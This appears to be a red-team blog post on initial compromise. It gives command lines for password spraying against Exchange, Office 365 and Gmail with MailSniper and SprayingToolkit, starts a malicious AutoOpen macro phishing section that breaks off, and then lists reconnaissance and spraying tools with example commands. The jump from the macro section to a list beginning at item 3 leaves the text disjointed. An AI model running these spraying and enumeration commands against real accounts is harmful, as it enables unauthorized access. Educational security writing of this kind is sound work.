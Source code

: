 ```yaml
---
title: "Insights from the Initial Compromise Phase"
date: 2025-02-20 00:00:01 -0700
categories: [Red Teaming]
---
```


# Introduction

<br> 
The "Initial Compromise" phase is one of the most crucial stages of any red team engagement. It’s where the first foothold is established through a mix of technical exploits and social engineering. In this post, I’ll guide you through key aspects of this phase and provide practical demos that clearly demonstrate the concepts. All examples use placeholder domains and resources to keep things generic and reusable.

> **Disclaimer** : This post is for educational purposes only. Always obtain proper authorization before conducting any security testing.
{: .prompt-warning }
<br>

# Password Spraying
Password spraying targets common passwords across multiple accounts without triggering account lockouts. The goal here to highlight potential users who rely on weak and easily guessable passwords. Users often pick patterns like MonthYear, SeasonYear, or even common phrases like "iloveyou"  which attackers can exploit with minimal attempts.

Two excellent tools for password spraying against Office 365, Exchange, and Gmail are **MailSniper** and **SprayingToolkit**.
<br>

#### Using MailSniper (OWA):

import MailSniper and execute the password spray:
```zsh
Import-Module /path/to/MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.example-domain.com -UserList ./usernames. \
txt -Password "iloveyou"
```

#### Using SprayingToolkit (EAS - Exchange ActiveSync):

SprayingToolkit can target the Exchange ActiveSync (EAS) service, often overlooked in security configurations.
```zsh
python3 sprayingtoolkit.py --module eas --url \
https://mail.example-domain.com/Microsoft-Server-ActiveSync --userlist usernames.txt \
--password "Winter2024"
```

#### Using SprayingToolkit (Gmail):

You can also target Gmail accounts using IMAP or SMTP modules:
```zsh
python3 sprayingtoolkit.py --module imap --url imap.gmail.com --userlist usernames.txt --password "Summer2008"
```

## What This Demonstrates:

You might have noticed that the purpose here isn’t to brute force accounts but to demonstrate how some users may rely on weak passwords. This highlights potential security risks rather than overwhelming the system with excessive login attempts.
<br>

# Internal Phishing
With valid credentials in hand, attackers can craft convincing internal emails that recipients are more likely to trust.

This include creating a Malicious Document with VBA Macros:

In Word, go to View > Macros > Create and name the macro AutoOpen.








## 3. Spoofy
**What It Does:**  
A tool for assessing domain spoofability based on SPF and DMARC records.

**How to Use:**  
```bash
python3 spoofy.py -d target-domain.com -o stdout
```

## 4. Amass
**What It Does:**  
A reconnaissance tool for mapping a domain's attack surface using DNS enumeration.

**How to Use:**  
```bash
amass enum -d target-domain.com
```

## 5. Sublist3r
**What It Does:**  
A Python-based tool for discovering subdomains using search engines and brute force.

**How to Use:**  
```bash
python3 sublist3r.py -d target-domain.com
```

## 6. MailSniper
**What It Does:**  
A tool for testing password spraying attacks against Office 365 and Exchange services, allowing attackers to check for valid credentials.

**How to Use:**  
```powershell
Import-Module .\MailSniper.ps1
Invoke-SprayOWA -UserList users.txt -Password Password123 -Domain mail.target.com
```

## 7. SprayingToolkit
**What It Does:**  
A tool designed for performing password spraying attacks on various services, including Office 365.

**How to Use:**  
```powershell
Invoke-PasswordSprayO365 -Users users.txt -Password Password123!
```

## 8. Hunter.io
**What It Does:**  
An online service that gathers email addresses associated with a given domain for reconnaissance and social engineering.

**How to Use:**  
Visit [Hunter.io](https://hunter.io) and input a domain to retrieve email addresses and associated details.

## 9. Dig (Linux DNS Tool)
**What It Does:**  
A built-in Linux tool for querying DNS records, including MX, A, and TXT records.

**How to Use:**  
```bash
dig ANY target-domain.com
dig TXT target-domain.com
```

## 10. WhatWeb
**What It Does:**  
A reconnaissance tool that fingerprints web technologies, detecting CMS platforms, web servers, and security mechanisms.

**How to Use:**  
```bash
whatweb https://target-domain.com
```

## 11. o365enum
**What It Does:**  
A tool used for enumerating valid Office 365 email addresses by analyzing responses from login pages.

**How to Use:**  
```bash
python3 o365enum.py -d target-domain.com -u userlist.txt
```

## 12. Wireshark
**What It Does:**  
A network packet analyzer used to capture and inspect traffic for reconnaissance and troubleshooting.

**How to Use:**  
```bash
wireshark -k -i eth0
```

## 13. ProxyLogon & ProxyShell Exploit Tools
**What They Do:**  
Exploit known vulnerabilities in Microsoft Exchange to gain remote access.

**How to Check if a Target is Vulnerable:**  
```bash
nmap -p 443 --script http-vuln-cve2021-26855 target-ip
```

## 14. Nmap
**What It Does:**  
A network scanning tool used to identify open ports, running services, and potential vulnerabilities.

**How to Use:**  
```bash
nmap -A -T4 target-ip
```

## 15. SecurityTrails
**What It Does:**  
An online service for querying domain intelligence, subdomains, historical DNS records, and leaked credentials.

**How to Use:**  
Visit [SecurityTrails](https://securitytrails.com) and search for a domain to analyze its data footprint.
```